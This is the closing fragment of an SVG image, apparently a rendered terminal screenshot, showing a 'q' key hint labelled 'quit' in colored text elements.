  <text x="692.4" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
  <text x="709.2" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
